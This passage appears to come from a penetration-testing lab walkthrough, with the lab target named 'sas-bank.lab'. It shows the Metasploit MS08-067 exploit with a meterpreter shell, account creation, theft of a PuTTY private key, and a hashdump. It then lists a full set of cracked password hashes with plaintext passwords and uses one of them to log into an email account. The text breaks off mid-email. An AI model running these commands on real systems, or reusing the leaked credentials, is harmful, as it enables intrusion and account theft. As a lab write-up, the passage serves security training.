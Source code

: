 sudo service postgresql start I enabled the db service, now open metasploit:

sudo msfconsole

These are the commands to type into metasploit console:

use exploit/windows/smb/ms08_067_netapi set payload windows/meterpreter/bind_tcp set RHOST 192.168.0.2 exploit

I am telling to metasploit to use ms08_067netapi exploit and use a bind TCP shell. With the RHOST parameter I set the terminal IP. Ok, after the exploit command, I notice that I have exploited the terminal and a meterpreter session is opened. Now add an account with the following command:

run getgui -u user -p password

I created an account with user as username and password as a password (funny?). Open a new terminal and connect to terminal via remote desktop:

rdesktop 192.168.0.2

Remember to use username and password created 2 steps ago. When logged, go to Start->Administrative Tools->Computer Management, now click on Local Users and Groups>Users and voilà, westfall account description it's our token. Navigate to C:\Document and Settings\westfall\Desktop and I found a .ppk file, generated with Putty. It is the RSA private key of westfall. I need to convert it to an OpenSSH format. Open PuttyGen (find it on Start->All Programs), click Load and select key.ppk. Now click on Convertions->Export OpenSSH Key. Ignore the warning message about passphrase, I don't need it. Copy the key into your PC locally. I have done, but before close the meterpreter session, dump the passwords hashes of all users:

run hashdump

Copy the hashes into a .txt file and crack them with Ophcrack, I use XP fast and XP small tables. These are the cracked hashes:

Administrator:500:0c03469220b35e9a05703d5f741b1170:49cddceb6d2f5e5a4e0aeb060bf14c3f:L4BL4BL:4B!:l4bl4bl4b! Guest:501::31d6cfe0d16ae931b73c59d7e0c089c0::: SUPPORT_388945a0:1001::02d65c711a7236a4f835cf733cb5f049::: martin:1003:042b562c7c48e8f1944e2df489a880e4:91f079e0039595d40e9ecbf05612afcd:FAEH6JE:R:faeh6Jer darden:1004:bc18441c94bf5d9617306d272a9441bb:42609d05847408f0fedd47a870faa3f9:RAEL6EL:E:RaeL6ele marks:1005:70d4e8d0dc609db717306d272a9441bb:696ee636c75c50951d6b263956330250:CHEE1XE:E:chee1Xee mitchell:1006:f5b30004aeb6c1f15acdcd7c247fa83a:d06ea08d05ae8360069e97ce3c7fdc85:QUAEF1A:H:Quaef1ah deschamp:1007:18fad23a1da037247584248b8d2c9f9e:a828a68202e54256bb9aedf4ad7a7b62:MEEGAE4:A:meeGae4a wright:1008:ce91d837c4141f6d7ca65f36030673dd:28119b671f1c3912dfc31f4e7d1c6a0e:LIUN9AH:J:LiuN9Ahj mason:1009:ef7e77b3480423de902139606b6d16b5:f07140a4380703c87b7a132f57e897e8:HAE1WAH:B:hae1Wahb evans:1010:c441c5b6d2231a33613e9293942509f0:6994c556ad7a87615b23a86a50b90605:PAHP7UX:U:pahp7Uxu westfall:1011:1a19a1d20cfd5e98c482c03f54cdb5d9:faa65cad7129302f5878ec06b747c232:AIWA8AH:K:AiWa8ahk user:1012:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:PASSWOR:D:password

## EMAIL

We have a list of users and their passwords. If you opened the westfall email account, you could noticed that there was an user (deschamp) who sent the email to westfall. Also we found the deschamp terminal password, why not try to login into mail with his email and password? Email: leroydeschamp@sas-bank.lab Password: meeGae4a

It works, and also we found the mail token. There is also an interesting mail:

"Hi!
